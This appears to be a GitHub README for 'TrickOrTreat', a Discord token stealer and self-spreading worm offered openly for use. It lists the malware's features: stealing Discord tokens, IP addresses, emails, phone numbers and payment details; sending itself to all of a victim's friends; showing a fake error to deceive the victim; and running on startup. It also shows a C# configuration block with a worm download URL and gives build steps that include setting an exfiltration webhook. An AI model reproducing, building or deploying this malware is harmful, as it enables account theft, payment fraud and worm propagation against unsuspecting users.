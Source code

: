 # TrickOrTreat
A new Discord token stealer/worm that can spread itself.

<p align="center">
<img src="https://img.shields.io/github/languages/top/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/license/extatent/TrickOrTreat?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/extatent/TrickOrTreat?color=%23daff00&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/extatent/TrickOrTreat?color=%23daff00&label=Forks&style=flat-square" </a>

---

**NOTE:** ⭐ If you like the project, feel free to star it ⭐

#### Features:
- Classic Mode (Sends only the Discord token and IP address in an non-embedded format.)
- Spread Mode (Sends the file/message to all friends.)
- Fake Error (Throws a fake error after opening the program.)
- Run On Startup (Runs the program once the computer is started.)
- Sends Discord Embeds
- Getting the user's information (Discord Token, IP Address, Phone Number, Email, Payment Info and many more)

### Configurations
```csharp
static bool ClassicMode = false; // Sends only the Discord token and IP address in an non-embedded format. (true/false)
static bool SpreadMode = false; // Sends the file/message to all friends (true/false)
static string WormURL = "https://example.com/cool.exe"; // Enter the download link you want the user to download and spread
static string WormMessage = ""; // Enter the message (optional)
static bool FakeError = false; // Throws a fake error after opening the program (true/false)
static bool RunOnStartup = false; // Runs the program once the computer is started (true/false)
```
**NOTE:** These settings can be found in the program.cs file.
  
<details>
<summary>Preview</summary>
<img src="https://i.imgur.com/o50kz9w.png" alt="png">

<img src="https://i.imgur.com/KV9nmoE.png" alt="png">
</details>

## Installation
  
>Click the green "Code" button. 
  
>Click "Download ZIP".
  
>Extract the ZIP.

>Open the TrickOrTreat.sln, in Visual Studio go to Program.cs and edit your webhook with the settings then head to Build>Build Solution
  
>Go to bin>debug folder to get the executable.

>NOTE: Make sure you have [Visual Studio 2019 or Visual Studio 2022](https://visualstudio.microsoft.com/downloads/) and [.NET Framework 4.8](https://dotnet.microsoft.com/en-us/download/dotnet-framework) installed.

---
### TrickOrTreat is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/TrickOrTreat/blob/main/LICENSE) file for details.
